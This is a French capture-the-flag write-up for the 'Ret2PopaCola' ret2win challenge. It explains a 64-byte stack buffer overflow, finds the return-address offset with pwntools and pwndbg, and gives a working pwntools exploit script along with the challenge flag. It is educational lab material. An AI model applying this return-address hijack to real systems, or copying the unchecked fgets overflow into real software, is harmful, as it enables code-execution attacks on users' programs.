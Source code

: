 # Write-Up - Pwn / Ret2PopaCola

L'objectif de ce challenge est la découverte des ret2win en pwn. C'est une méthode d'exploitation assez classique qui permet de bien comprendre le flow d'exécution d'un binaire, mais surtout comment on peut le contrôler :D

## Analyse du challenge

Commençons d'abord par analyser les sources du binaire et son comportement. 

Le programme est un outil de consultation du nombre de ventes de PopaCola de la journée.
Quand on l'exécute, on nous demande un login. Si le login n'est pas le bon, le programme nous refuse l'accès et se termine.
En lisant le code, on voit que le login demandé est "popacola".

En rentrant ce login, le programme nous affiche le nombre de ventes (simulés avec deux random). Rien de bien fou jusque-là.

Cependant, on remarque l'existence d'une fonction "SuperSecretAdminAccess", qui vient ouvrir le flag. Intéressant...
![](./wu/SuperSecretAdminAccess.png)

Enfin, on voit que le login est stocké dans le buffer `name` qui a une capacité de 64 caractères. La fonction `fgets` elle vient récupérer l'entrée utilisateur en la considérant d'une taille de 0x100 (256). Que se passe-t-il dans le buffer s'il contient plus de 64 caractères ?

## Un buffer overflow, kesako ?

En rentrant plus de 64 caractères, nous avons fait un buffer overflow. Nous avons dépassé l'espace mémoire réservé pour le nom de l'utilisateur. De la donnée va être réécrite sur la pile (stack), qui est la partie qui garde en mémoire de nombreuses informations utiles pour notre programme. Dans ces informations, nous pouvons retrouver l'adresse de retour de la fonction après la fin de son exécution ou les adresses de la stack sauvegardée de la fonction main.

C'est là que la fonction SuperSecretAdminAccess nous intéresse. Cette fonction n'est appelée nulle part, comment faire pour y accéder et obtenir le flag ?

Le but du jeu va être de réécrire la valeur du registre `rip` qui est dans la stack et récupérée lors du `ret`. Ainsi, à la fin de l'exécution de la fonction, sellTracker ne retournera pas sur main mais sur la fonction SuperSecretAdminAccess, ce qui nous donne le flag.

## Solution

Un checksec sur le binaire permet de voir plusieurs éléments :
- NX activé, ce qui nous empêche de faire un shellcode
- PIE est désactivé, les fonctions du binaire ont la même adresse à chaque exécution
- Pas de canary, on peut donc blinder la stack sans soucis

Étapes à suivre :
1. Trouver l'offset entre le début du buffer name et le rip stocké.
2. Recuperer l'adresse de la fonction SuperSecretAdminAccess, qui sera toujours la même (PIE désactivée)
3. Écrire notre payload
4. Envoyer notre payload et récupérer le flag !

### 1. Trouver l'offset entre le début du buffer name et le rip stocké

Pour trouver l'offset de réécriture de `rip`, il est courant d'utiliser un cyclic avec pwntools, qui génère une [suite de Bruijn](https://fr.wikipedia.org/wiki/Suite_de_de_Bruijn).

Avec pwntools d'installé et depuis un terminal interactif Python :
```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

On peut ensuite lancer le binaire en local avec `gdb` afin d'envoyer la séquence générée au préalable.
Ici j'utilise [pwndbg](https://github.com/pwndbg/pwndbg), une surcouche de `gdb` qui permet d'avoir une interface un peu plus sympa.
![](./wu/pwndbg_run.png)

Le programme crash. On obtient un SIGSEGV :D
![](./wu/sigsegv.png)

1. Le SIGSEGV indique le fameux Segmentation Fault. Ici, le programme essaie de retourner sur une adresse invalide comme `rip` a été réécrit.
2. Pwndbg reconnaît la chaîne de caractères 'waaaxaaayaaa' pour le registre `rsp`. On reconnaît les caractères qui font partie du cyclic que l'on a rentré. C'est ce qu'on utilise dans `cyclic_find` pour trouver l'offset.

Dans le même terminal Python, on exécute donc :
```python
>>> cyclic_find('waaaxaaayaaa')
88
```
On a trouvé notre offset ! Il est de 88 caractères.

### 2. Récupérer l'adresse de la fonction SuperSecretAdminAccess

Comme on l'a vu dans le checksec, le PIE sur le binaire est désactivé. Les adresses des fonctions du binaire ne changeront donc pas entre deux exécutions.

Comme le binaire est `not stripped`, on peut récupérer facilement les symboles avec `objdump`.
```shell
$ objdump -t ret2popacola | grep "SuperSecretAdminAccess"
00000000004011b6 g     F .text	00000000000000b8              SuperSecretAdminAccess
```

L'adresse est **0x00000000004011b6**.

## Écrire notre payload

Ce script de solve utilise pwntools. Il se connecte en remote sur le Docker fourni :

```python
from pwn import *

def solve():
    # Connexion en remote sur notre hôte local sur le port 4444
    r = remote("localhost","4444") 

    # On met de la donnée inutile pour combler l'espace entre le début de notre buffer et la réécriture de rip 
    payload = b"A" * 88        

    # On utilise la fonction p64 afin de "packed" l'adresse, c’est-à-dire changer l'endianness de l'adresse (on le passe en little endian)
    payload += p64(0x00000000004011b6)

    # Il ne nous reste plus qu'à envoyer notre payload au bon moment, puis de passer en interactive.
    r.sendlineafter(b"Veuillez rentrer votre login pour acceder aux ventes du jour.", payload)
    r.interactive()

if __name__ == "__main__":
    solve()
```
On lance le programme et on obtient l'accès à SuperSecretAdminAccess et au flag :D
![](./wu/ca_flag.png)

## Flag

Le flag est `24HIUT{L3ts_K33p_Pwn1Ng_P0paC01a}`.
